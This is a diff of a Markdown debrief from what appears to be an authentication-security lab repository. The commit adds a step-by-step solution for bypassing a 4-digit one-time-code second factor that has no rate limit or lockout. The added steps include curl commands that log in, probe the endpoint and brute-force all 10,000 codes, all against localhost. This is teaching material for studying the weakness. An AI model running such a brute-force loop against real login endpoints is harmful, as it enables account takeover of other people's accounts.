

Before and after one commit to kilani47/r6s-auth-lab, a Markdown page: masquerade/op7/DEBRIEF.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/masquerade/op7/DEBRIEF.md
+++ b/masquerade/op7/DEBRIEF.md
@@ -70,13 +70,44 @@ guess except say "wrong." No delay, no lock-out after N failures, no invalidatio
 challenge. So the entire space is searchable online, and the average attacker lands the real
 code in ~5,000 requests and a few seconds.
 
+### How to solve it, step by step
+
+**1. Clear the first factor and keep the cookie.** The password is given; log in and save the
+session so every later request is "half-authenticated":
+
 ```bash
-# logged in (first factor done), cookie in cookies.txt:
+curl -s -c cookies.txt -X POST http://localhost:8000/masquerade/op7/login \
+     -d "username=night.duty&password=KafeNight2024!" -o /dev/null
+```
+
+**2. Probe before you brute.** Submit two or three deliberately wrong codes and watch the
+response. It's the same `401 {"error":"incorrect_code"}` every time — no growing delay, no
+"account locked", no new challenge. *That* observation is the finding; the brute force is just
+acting on it.
+
+```bash
+for c in 1111 2222 3333; do
+  curl -s -X POST http://localhost:8000/masquerade/op7/api/verify-otp -b cookies.txt -d "otp=$c"
+  echo
+done
+```
+
+**3. Find where the code prompt actually posts.** You don't have to guess the endpoint — enter
+any code in the browser with DevTools ▸ Network open (or Burp), and you'll see the form hit
+`POST /masquerade/op7/api/verify-otp`.
+
+**4. Brute the whole 4-digit space** until one comes back `"ok":true` (or point Burp Intruder at
+the same request):
+
+```bash
 for i in $(seq -w 0 9999); do
   curl -s -X POST http://localhost:8000/masquerade/op7/api/verify-otp \
-       -b cookies.txt -d "otp=$i" | grep -q '"ok": true' && { echo "CODE $i"; break; }
+       -b cookies.txt -d "otp=$i" | grep -q '"ok":true' && { echo "CODE $i"; break; }
 done
 ```
+
+The success response carries `"next": "/masquerade/op7/vault"` — follow it (with the same cookie)
+and you're in.
 
 ### Why length is a red herring
 
````
Also changed, not shown: other parts of masquerade/op7/DEBRIEF.md (+69 -12 lines).
